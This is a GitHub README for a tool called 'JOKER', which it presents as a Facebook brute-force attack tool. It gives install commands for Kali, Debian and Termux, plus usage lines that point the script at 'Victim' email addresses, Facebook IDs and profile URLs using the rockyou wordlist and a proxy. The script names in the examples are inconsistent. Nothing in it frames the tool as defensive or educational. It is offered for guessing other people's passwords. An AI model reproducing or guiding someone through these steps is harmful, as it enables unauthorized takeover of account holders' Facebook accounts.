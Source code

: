 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)
<code><img height="300" src="https://elements-cover-images-0.imgix.net/599cf8df-69ea-42ee-ab6a-23e8d13624f3?auto=compress%2Cformat&fit=max&w=1019&s=0d7fb3fd2fdfba13dd2056a099b22dac"></code>
# JOKER FACEBOOK BRUTAL FORCE ATTACK


### Is facebook burtalforce tool is also tested on this os and divces
------------------------------------------------------------------------------------
### 1: KALI LINUX
### 2: ANY DIBIAN BASED OS AND UBUNTU
### 3: TERMUX 
### 4: ANY OS THAT PYTHON INSTALLED ON IT




----------------------------------------------------------------------------
## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 

------------------------------------------------------------------------------------------
## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###

<img src="/jk.PNG" >


